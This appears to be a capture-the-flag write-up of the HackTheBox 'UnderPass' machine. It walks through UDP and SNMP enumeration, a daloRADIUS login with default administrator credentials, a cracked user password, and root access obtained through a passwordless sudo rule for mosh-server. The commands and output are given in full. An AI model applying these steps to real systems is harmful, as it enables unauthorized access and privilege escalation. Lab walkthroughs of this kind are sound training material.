

### UDP scans are also important


---

## Introduction

Hello World! Welcome to another adventure in my journey into the world of cybersecurity. Today we're going to talk about one of the few machines on the [Hackthebox](https://www.hackthebox.com) platform where it's important to enumerate using the [[UDP]] protocol.

**`UnderPass`** is an easy machine where you can easily hit a dead end if you start enumerating ports using the [[TCP]] protocol (which is used as the [[NMAP]] default). But if we enumerate using the **`UDP`** protocol, we find an open [[SNMP]] port to which we can connect and extract information about the **`underpass.htb`** domain, the [[Daloradius]] server, and the **`steve`** user. Looking at **`daloradius`** on [Github](https://www.github.com), we find the path to the administrator login, which has the default credentials. In the **`daloradius`** dashboard we find the hash of the user **`svcMosh`**, which we can crack and use in the [[SSH]] service. As the **`svcMosh`** user, we can use the **`mosh-server`** utility as a superuser, allowing us to invoke a **`root`** shell.

This is sure to be very interesting, so let's get to it.

---

## Enumeration

### Nmap

The result of **`nmap`** returned two open ports.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 24 09:16:34 2024 -- 1 IP address (1 host up) scanned in 18.72 seconds
```

As I didn't have the **`SSH`** credentials, I visited the web page on port 80.


And then I was lost. Completely lost. Until I wondered what the hint on the machine's official banner was. If you pay close attention, you'll understand: **`UDP`**, from **`UnDerPass`**.

### Udp

Running **`nmap`** with **`udp`** protocol, I found port 161 **`snmp`** open. Below is the result of running **`nmap`** with **`snmp`** scripts.

```bash

# Nmap 7.94SVN scan initiated Tue Dec 24 09:38:52 2024 as: /usr/lib/nmap/nmap -sU -p 161 --script=snmp* -oN nmap/udp-underpass 10.129.242.210

Nmap scan report for 10.129.242.210

Host is up (0.22s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 30
|_  snmpEngineTime: 5h04m00s
| snmp-brute:
|_  public - Valid credentials
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 5h04m6.20s (1824620 timeticks)

# Nmap done at Tue Dec 24 09:39:17 2024 -- 1 IP address (1 host up) scanned in 24.48 seconds
```
> [!warning]
> Nmap's UDP scan can take a considerable amount of time if we try to enumerate all ports (-p- flag).

Running the [[snmp-check]] tool gave me more information about the target.

```bash {11-13}

┌──(kali㉿kali)-[~/Boxes/Htb/underpass]
└─$ snmp-check -p 161 10.129.242.210

snmp-check v1.9 - SNMP enumerator

Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.129.242.210:161 using SNMPv1 and community 'public'
[*] System information:

  Host IP address               : 10.129.242.210

  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 05:07:57.91
  Uptime system                 : 05:07:46.79
  System date                   : 2024-12-24 14:42:42.0
```

At this point I had some interesting information:
  
1. The domain name was **`underpass.htb`**.
2. The server was **`daloradius`**.
3. The user **`steve`** was mentioned.

While researching the **`daloradius`** server, I found that the source code is available on [GitHub](https://www.github.com/lirantal/daloradius). Since it's open source, I can investigate possible endpoints, including login pages. And this is exactly what I've found.


---

## Exploration

### Daloradius

When I visited the path found on **`Github`**, I actually found a login page.


By testing the default credentials, **`administrator : radius`**, I was able to access the administrator dashboard.


Listing the active users, I discover the user **`svcMosh`** and his password hash.


Using an online hash decryptor, I found the password of the user **`svcMosh`**: **`underwaterfriends`**.


With these credentials, I remotely connected to the server via **`SSH`** and got the user flag.

```bash {3,4}
svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt
d8dc47d19d8d6b56c6cb826d6da451ec
svcMosh@underpass:~$
```

---

## Privilege Escalation

### Mosh Server

Using the command **`sudo -l`**, I was able to see that the user **`svcMosh`** can run the command **`/usr/bin/mosh-server`** as superuser without a password.

```bash

svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

> [!question] What is Mosh?
> Mosh Server is a program that facilitates remote connection to a terminal, similar to SSH, but optimized for unstable network environments, such as Wi-Fi and mobile data, or when the client changes networks. It stands out for its ability to keep the session active even during network interruptions or IP address changes.

While doing a little research about **`mosh`** on [mosh.org](https://mosh.org/), I saw that it is possible to create a server on any port above 60000 and then connect to the client using the key provided by the server. By using **`mosh`** as the superuser, we get a mosh root shell.

```bash {1,6}

svcMosh@underpass:~$ sudo /usr/bin/mosh-server new -p 61100

MOSH CONNECT 61100 BeIP9eeBg4Rk8DLkVjyPFg
<SNIPED>

svcMosh@underpass:~$MOSH_KEY=BeIP9eeBg4Rk8DLkVjyPFg mosh-client 127.0.0.1 61100

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Dec 24 03:12:03 PM UTC 2024

  System load:  0.0               Processes:             227
  Usage of /:   88.5% of 3.75GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.129.242.210
  Swap usage:   0%

  => / is using 88.5% of 3.75GB

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@underpass:~# ls
root.txt
root@underpass:~# cat root.txt
889b3d290274674c1fc62cf94f678659
root@underpass:~#
```

---

## Conclusion


On this machine, I learned the importance of proper enumeration. I would have saved myself literally hours of searching if I had just tested the **`udp`** ports. Still, it was a nice approach and a great idea on the part of the machine's creator. I also learned about the **`daloradius`** and **`mosh`** servers, and once again proved what happens when we leave unnecessary permissions to certain users.

Thanks for reading this far and see you next time!

